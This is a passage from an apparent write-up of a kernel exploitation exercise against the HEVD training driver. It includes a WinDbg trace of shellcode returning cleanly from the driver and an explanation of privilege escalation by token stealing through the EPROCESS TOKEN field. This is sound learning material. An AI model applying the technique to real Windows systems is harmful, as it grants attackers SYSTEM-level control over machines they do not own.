 We should be able to execute arbitrary code within the driver, and then return to userland normally:

```
5: kd> t
ffffaf85`a6903001 55              push    rbp
5: kd> t
ffffaf85`a6903002 488bec          mov     rbp,rsp
4: kd> t
ffffaf85`a6903005 4883ec20        sub     rsp,20h
4: kd> t
ffffaf85`a6903009 33f6            xor     esi,esi
4: kd> t
ffffaf85`a690300b 33c0            xor     eax,eax
4: kd> t
ffffaf85`a690300d c9              leave
4: kd> t
ffffaf85`a690300e 488b4c2440      mov     rcx,qword ptr [rsp+40h]
4: kd> t
ffffaf85`a6903013 4881e9f0820800  sub     rcx,882F0h
4: kd> t
ffffaf85`a690301a 488d8917570800  lea     rcx,[rcx+85717h]
4: kd> t
ffffaf85`a6903021 488d642430      lea     rsp,[rsp+30h]
4: kd> t
ffffaf85`a6903026 ffe1            jmp     rcx
4: kd> t
HEVD+0x85717:
fffff804`20215717 4883653800      and     qword ptr [rbp+38h],0
4: kd> u rip
HEVD+0x85717:
fffff804`20215717 4883653800      and     qword ptr [rbp+38h],0
fffff804`2021571c 33d2            xor     edx,edx
fffff804`2021571e 488bcd          mov     rcx,rbp
fffff804`20215721 897530          mov     dword ptr [rbp+30h],esi
fffff804`20215724 ff15e6c8f7ff    call    qword ptr [HEVD+0x2010 (fffff804`20192010)]
fffff804`2021572a 488b5c2430      mov     rbx,qword ptr [rsp+30h]
fffff804`2021572f 8bc6            mov     eax,esi
fffff804`20215731 488b742440      mov     rsi,qword ptr [rsp+40h]
4: kd> g
```

After which the VM is still running and no BSOD occurs.
Good, now all we need to do is to escalate privileges before continuing the process.

### Kernel Payload

Privilege escalation can be achieved by replacing the current process' [access token](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-tokens) with the access token of a system process.
As described [in this great OST2 Windows Kernel Internals course module](https://apps.p.ost2.fyi/learning/course/course-v1:OpenSecurityTraining2+Arch2821_Windows_Kernel_Internals_2+2023_v1/block-v1:OpenSecurityTraining2+Arch2821_Windows_Kernel_Internals_2+2023_v1+type@sequential+block@4bfca5f24b0a4be49690fd26eceac06d/block-v1:OpenSecurityTraining2+Arch2821_Windows_Kernel_Internals_2+2023_v1+type@vertical+block@e23784cdc5124c1091bf9d856255614a), this can be done by copying the field `TOKEN` field within the [`EPROCESS` struct](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/eprocess#eprocess) of a system process to our own.
Now, this technique (known as token stealing) seems to be fairly common and easily detectable by AVs/EDRs, but for the purposes of this challenge this will be good enough (a more involved approach would, for instance, consist of just patching security identifiers within our own token).
